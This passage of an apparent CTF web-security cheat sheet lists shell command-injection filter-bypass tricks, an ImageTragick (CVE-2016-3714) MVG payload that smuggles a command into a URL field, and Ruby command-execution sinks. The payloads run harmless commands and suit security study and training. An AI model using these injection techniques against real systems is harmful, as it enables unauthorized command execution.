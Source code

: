 - String Concat
    - `A=fl;B=ag;cat $A$B`
- Empty Variable
    - `cat fl${x}ag`
    - `cat tes$(z)t/flag`
    
- Environment Variable
    - `$PATH => "/usr/local/….blablabla”`
        - `${PATH:0:1}   => '/'`
        - `${PATH:1:1}   => 'u'`
        - `${PATH:0:4}   => '/usr'`
    - `${PS2}` 
        - `>`
    - `${PS4}`
        - `+`
- Empty String
    - `cat fl""ag`
    - `cat fl''ag`
        - `cat "fl""ag"`

- 反斜線
    - `c\at fl\ag`

## ImageMagick (ImageTragick)

- CVE-2016-3714
- `mvg` 格式包含 https 處理(使用 curl 下載)，可以閉合雙引號
- payload:

```mvg
push graphic-context
viewbox 0 0 640 480
fill 'url(https://kaibro.tw";ls "-la)'
pop graphic-context
```

## Ruby Command Executing

- `open("| ls")`
- `IO.popen("ls").read`
- `Kernel.exec("ls")`
- ``` `ls` ```
- `system("ls")`
- `eval("ruby code")`
    - Non-Alphanumeric example: [HITCON CTF 2015 - Hard to say](https://github.com/w181496/CTF/tree/master/hitcon2015/hard-to-say)
        - `$$/$$` => 1
        - `'' << 97 << 98 << 99` => "abc"
        - `$:`即`$LOAD_PATH`
- `exec("ls")`
- `%x{ls}`
- Net::FTP
    - CVE-2017-17405
    - use `Kernel#open`
